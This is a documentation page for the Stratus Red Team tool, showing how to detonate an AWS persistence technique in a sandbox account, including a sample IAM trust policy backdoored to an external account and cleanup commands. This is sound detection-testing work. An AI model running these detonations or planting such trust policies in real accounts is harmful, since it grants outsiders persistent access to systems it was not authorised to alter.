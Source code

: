 # Examples

This page contains a full example of using Stratus Red Team.

## Authenticating to AWS

First, we'll authenticate to AWS using [aws-vault](https://github.com/99designs/aws-vault):

```bash
$ aws-vault exec sandbox-account
$ aws sts get-caller-identity
{
    "UserId": "AIDA254BBSGPGUZJKQWRD",
    "Account": "012345678912",
    "Arn": "arn:aws:iam::012345678912:user/christophe"
}
```

Stratus Red Team should support any authentication option supported by the AWS Go SDK v2.
The general rule of thumb is: if you can run `aws sts get-caller-identity`, you can run Stratus Red Team.

## Listing available Attack Techniques

Let's say we want to confirm our security products identify common persistence mechanisms in our AWS account.
Let's ask Stratus Red Team for the relevant available attack techniques:

```
$ stratus list --platform aws --mitre-attack-tactic persistence

+-----------------------------------------------+-----------------------------------------+----------+----------------------+
| TECHNIQUE ID                                  | TECHNIQUE NAME                          | PLATFORM | MITRE ATT&CK TACTIC  |
+-----------------------------------------------+-----------------------------------------+----------+----------------------+
| aws.persistence.backdoor-iam-role             | Backdoor an existing IAM Role           | AWS      | Persistence          |
| aws.persistence.backdoor-iam-user             | Create an IAM Access Key on an IAM User | AWS      | Persistence          |
|                                               |                                         |          | Privilege Escalation |
| aws.persistence.iam-user-create-login-profile | Create a Login Profile on an IAM user   | AWS      | Persistence          |
|                                               |                                         |          | Privilege Escalation |
| aws.persistence.malicious-iam-user            | Create an administrative IAM User       | AWS      | Persistence          |
|                                               |                                         |          | Privilege Escalation |
+-----------------------------------------------+-----------------------------------------+----------+----------------------+
```

## Detonating an attack technique

We're interested in `aws.persistence.backdoor-iam-role`, an attack technique that backdoors an existing IAM role to add a trust relationship with a malicious AWS account.

Let's retrieve more information about the technique, either through its [automatically-generated documentation](https://stratus-red-team.cloud/attack-techniques/AWS/aws.persistence.backdoor-iam-role/), or by running:

```
$ stratus show aws.persistence.backdoor-iam-role
Establishes persistence by backdooring an existing IAM role, allowing it to be assumed from an external AWS account.

Warm-up: Creates the pre-requisite IAM role.

Detonation: Updates the assume role policy of the IAM role to backdoor it.
```

We now know that Stratus Red Team will first create an IAM role in the warm-up phase. In the detonation phase, it will backdoor the role.

We could choose to perform the warm-up and detonation phase separately - but for simplicity, let's do it all together:

```
$ stratus detonate aws.persistence.backdoor-iam-role
2022/01/19 10:28:08 Checking your authentication against the AWS API
2022/01/19 10:28:09 Warming up aws.persistence.backdoor-iam-role
2022/01/19 10:28:09 Initializing Terraform
2022/01/19 10:28:18 Applying Terraform
2022/01/19 10:28:32 Backdooring IAM role by allowing sts:AssumeRole from an extenral AWS account
```

Great! The attack technique has been executed against our AWS account.

We can verify this using:

```
$ stratus status
+------------------------------------+-------------------------------+-----------+
| ID                                 | NAME                          | STATUS    |
+------------------------------------+-------------------------------------------+
| aws.persistence.backdoor-iam-role  | Backdoor an existing IAM Role | DETONATED |
...
```

## Viewing the resulting resource

If we open the AWS console and go to the role that Stratus Red Team backdoored, we can see the malicious role trust policy:

```json hl_lines="12 13 14 15 16"
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "Service": "ec2.amazonaws.com"
      },
      "Action": "sts:AssumeRole"
    },
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::193672423079:root"
      },
      "Action": "sts:AssumeRole"
    }
  ]
}
```

## Cleaning up

When using `stratus detonate`, the resources spun up are not cleaned up by default - you'd have to pass the `--cleanup` flag for that.

We can clean up any resources creates by Stratus Red Team using:

```
stratus cleanup aws.persistence.backdoor-iam-role
```